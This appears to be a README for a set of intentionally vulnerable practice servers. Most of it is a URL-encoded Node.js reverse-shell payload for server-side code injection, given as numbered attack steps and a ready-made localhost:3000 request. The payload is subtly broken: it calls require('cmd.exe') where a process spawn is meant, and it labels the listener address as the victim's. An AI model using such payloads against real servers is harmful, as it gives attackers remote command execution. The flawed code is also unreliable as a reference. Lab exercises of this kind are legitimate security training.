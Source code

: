 *all the servers in this folder are vulnerable.*

## Attacking servers

#### SSI

1. build shell script
2. encode script to url
3. use nc to monitor the victim IP address
4. attack server with payload

i.e Url Encoded payload
```
function%20attack%28%29%20%7B%0A%20%20const%20net%20%3D%20require%28%27net%27%29%3B%0A%20%20const%20cp%20%3D%20require%28%27child_process%27%29%3B%0A%20%20const%20cmd%20%3D%20require%28%27cmd.exe%27%2C%20%5B%5D%29%3B%0A%20%20const%20client%20%3D%20new%20net.Socket%28%29%3B%0A%20%20const%20VICTIM_IPADDR%20%3D%20%27127.0.0.1%27%3B%20%2F%2F%20edit%20this%0A%0A%20%20client.connect%283434%2C%20VICTIM_IPADDR%2C%20%28%29%20%3D%3E%20%7B%0A%20%20%20%20client.pipe%28cmd.stdin%29%3B%0A%20%20%20%20cmd.stdout.pipe%28client%29%3B%0A%20%20%20%20cmd.stderr.pipe%28client%29%3B%0A%20%20%7D%29%3B%0A%0A%20%20return%201%3B%0A%7Dattack%28%29%3B%0A
```

localhost:3000/?a=function%20attack%28%29%20%7B%0A%20%20const%20net%20%3D%20require%28%27net%27%29%3B%0A%20%20const%20cp%20%3D%20require%28%27child_process%27%29%3B%0A%20%20const%20cmd%20%3D%20require%28%27cmd.exe%27%2C%20%5B%5D%29%3B%0A%20%20const%20client%20%3D%20new%20net.Socket%28%29%3B%0A%20%20const%20VICTIM_IPADDR%20%3D%20%27127.0.0.1%27%3B%20%2F%2F%20edit%20this%0A%0A%20%20client.connect%283434%2C%20VICTIM_IPADDR%2C%20%28%29%20%3D%3E%20%7B%0A%20%20%20%20client.pipe%28cmd.stdin%29%3B%0A%20%20%20%20cmd.stdout.pipe%28client%29%3B%0A%20%20%20%20cmd.stderr.pipe%28client%29%3B%0A%20%20%7D%29%3B%0A%0A%20%20return%201%3B%0A%7Dattack%28%29%3B%0A

